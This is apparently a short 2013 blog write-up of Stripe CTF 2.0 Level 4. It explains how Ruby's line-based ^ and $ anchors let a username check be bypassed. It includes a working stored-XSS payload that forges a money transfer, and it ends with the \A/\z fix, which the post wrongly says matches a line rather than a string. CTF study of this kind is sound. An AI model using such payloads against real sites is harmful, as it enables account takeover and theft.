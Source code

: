 Date: 2013-06-21
Title: Playing with Stripe CTF
Category: Software
Tags: ruby, security

I was playing around with Stripe's [source code][github] for last year's CTF,
and from what I could see online, most people solved Level 4 by using XSS in
the password field. But look at the following line in `srv.rb`:

    :::ruby
    unless username =~ /^\w+$/
      ie("Invalid username. Usernames must match /^\w+$/", :register)
    end

Turns out there is a hole here as well due to the way Ruby treats the `^` and
`$` metacharacters. According to the [documentation][doc], the `^` anchor
matches the beginning of a _line_, instead of the entire string. Thus

    :::ruby
    puts "match" if "<script>" =~ /^\w$/     # doesn't print anything
    puts "match" if "<script>\nx" =~ /^\w$/  #>> match

This allows us to use the `username` field as an attack vector.

    :::ruby
    xss = <<-eos
    <script>
    $.post('/transfer', { to: 'me', amount: '10' });
    </script>
    x
    eos
    Net::HTTP.post_form uri, { username: xss, password: 'x' }

Trips me up every time. Use `\A` and `\z` to match the beginning and end of a
line in ruby.

### References

- [IOActive](http://blog.ioactive.com/2012/08/stripe-ctf-20-write-up.html#level4)
- [SpiderLabs](http://blog.spiderlabs.com/2012/08/stripe-ctf-walkthrough.html)

  [doc]: http://www.ruby-doc.org/core-1.9.2/Regexp.html#label-Anchors
  [github]: https://github.com/stripe-ctf/stripe-ctf-2.0
